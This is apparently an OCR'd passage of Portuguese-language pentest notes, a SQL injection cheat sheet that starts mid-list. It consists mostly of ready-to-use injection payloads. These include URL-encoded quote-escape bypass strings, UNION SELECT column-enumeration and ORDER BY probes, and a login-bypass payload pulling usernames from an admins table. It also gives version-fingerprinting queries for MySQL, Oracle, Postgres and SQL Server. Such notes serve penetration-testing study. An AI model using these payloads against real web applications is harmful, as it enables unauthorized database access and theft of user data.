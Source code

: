                 %8C%A8%27)Or(1)-- 2
                %bf')Or(1)-- 2
                %A8%27)||1-- 2
                %8C%A8%27)||1-- 2
                %bf')||1-- 2
                ```
                
        - UNIONS
            - Enumerando colunas - (verifique quantos campos são necessários, para o union funcionar as duas consultas devem ter a mesma quantidade de colunas retornadas
                
                ```markdown
                +UNION+SELECT+NULL,NULL,NULL—+-
                ```
                
                Order by também funciona:
                
                ```bash
                ticket?id=1 AND 1=1 ORDER by 4
                ```
                
                Exemplo:
                
                ```markdown
                admin'+or+1=1+UNION+SELECT+username+from+admins--+-
                ```
                
            - Trazendo versão do banco:
                - Mysql
                    
                    ```bash
                    UNION+SELECT+version(),null,null -- -
                    
                    UNION SELECT version(),null -- -
                    ```
                    
                - Oracle
                    
                    ```php
                    SELECT version FROM v$instance;
                    
                    'UNION+SELECT+banner,NULL+FROM+v$version-- 
                    'UNION+SELECT+version,NULL+FROM+v$version--
                    
                    'UNION SELECT version,NULL FROM v$version -- -
                    ```
                    
                - Postgres
                    
                    ```php
                    SELECT version();
                    ```
                    
                - SQLServer
                    
                    ```php
                    SELECT @@VERSION;
                    ```
                    